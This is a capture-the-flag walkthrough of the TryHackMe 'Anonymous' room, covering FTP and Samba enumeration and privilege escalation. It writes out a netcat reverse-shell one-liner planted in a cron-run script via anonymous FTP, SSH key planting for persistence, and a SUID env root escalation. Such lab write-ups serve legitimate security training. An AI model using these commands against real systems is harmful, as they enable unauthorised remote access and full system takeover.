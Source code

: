 # Anonymous

* https://tryhackme.com/room/anonymous
* March 10, 2022
* easy

***

## Enumeration

### Nmap

1. 21/ftp vsftpd 2.0.8 or later
   * anonymouslogin allowed
   * access rwx directory -> scripts
   * FTP server status: Connected to ::ffff:10.11.8.57
2. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 139/tcp Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
4. 445/tcp Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

### FTP

* anonymous login
* NamelessOne's FTP Server!
* scripts directory (rwx) to anonymous
* 3 files -> `clean.sh`, `removed_files.log`, `to_do.txt`
* get all three to local machine
* nothing interesting till now, may be clean.sh file for later use
* clean.sh create removed\_files.log

### Samba

* enumerate with smbmap with anonymous login
* 3 dirs found, `pics` has READ ONLY, other twos - NO ACCESS
* get two image files, `corgo2.jpg`, `puppos.jpeg`
* `binwalk` shows there are hidden file in puppos.jpeg
* analyse `puppos.jpeg`
* there are a lot of info with `exiftool`
* I have spent a lot of time with this image
* I re-entered into ftp and found that the removed\_files.log has increasing file size
* is it running with cron jobs?

## User Access

* we have write access in scripts directory in ftp
* add a reverse-shell script in clean.sh file

```sh
#!/bin/bash

...
## added
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

* enter ftp and `put clean.sh` in scripts directory
* wait for a minute and get `namelessone` shell

![](2023-03-10-17-15-11.png)

* To get ssh shell, in local machine create id\_rsa pair with `ssh-keygen`, then `cat id_rsa.pub`
  * in namelessone's shell, create `.ssh` folder under his home folder
  * paste the `id_rsa.pub` content as `authorized_keys`
  * then can enter namelessone's ssh with id\_rsa

## Root Access

```sh
namelessone@anonymous:~$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

namelessone@anonymous:/tmp$ ls -la $(which env)
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env
namelessone@anonymous:/tmp$ env /bin/sh -p
# whoami
root

```

* lxd is also vulnerable

![](2023-03-10-17-31-38.png)

* in lxd, original files are located under `mnt/root`
* detail of lxd exploit is written in [Gaming Server Room](TryHackMe/gaming\_server/).

***
